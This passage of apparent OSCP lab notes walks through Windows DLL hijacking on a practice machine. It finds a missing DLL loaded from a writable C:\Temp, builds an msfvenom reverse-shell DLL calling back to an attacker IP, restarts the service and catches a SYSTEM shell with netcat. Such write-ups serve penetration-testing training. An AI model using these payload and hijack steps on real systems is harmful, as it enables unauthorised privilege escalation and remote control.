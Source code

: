 ![](../../oscp-pics/DLL-hijack-5.png)
In this case, all of the NAME NOT FOUND errors are in reference to a DLL called `hijackme.dll`. This is our vulnerable DLL!

Notice in the Path section that Windows eventually tries to find the file in `C:\Temp\hijackme.dll`. From our earlier winPEAS output *we know that `\TEMP` is writeable* for our current user. So, all we have to do is place a malicious DLL file there and trigger Windows to execute it!
#### EXPLOITATION
We can use [MSFvenom](../../../cybersecurity/TTPs/exploitation/tools/metasploit.md#MSFvenom) to create our malicious DLL:
```bash
┌─[25-07-28 18:49:10]:(root@10.0.2.15)-[~/tibs]
└─# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.69.4 LPORT=44444 -f dll -o hijackme.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: hijackme.dll
```
Now, just get the file onto the box and use `net stop` and `net start` to restart the service. *Remember to start your netcat listener*.
```powershell
PS C:\Windows\system32> net stop dllsvc
The DLL Hijack Service service is not started.

More help is available by typing NET HELPMSG 3521.

PS C:\Windows\system32> net start dllsvc
The DLL Hijack Service service is starting.......
```
Listener:
```bash
┌─[25-07-28 17:35:05]:(root@10.0.2.15)-[~/tibs]
└─# nc -lvp 44444
listening on [any] 44444 ...
10.0.69.5: inverse host lookup failed: Host name lookup failure
connect to [10.0.69.4] from (UNKNOWN) [10.0.69.5] 56256
Microsoft Windows [Version 10.0.19045.6093]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```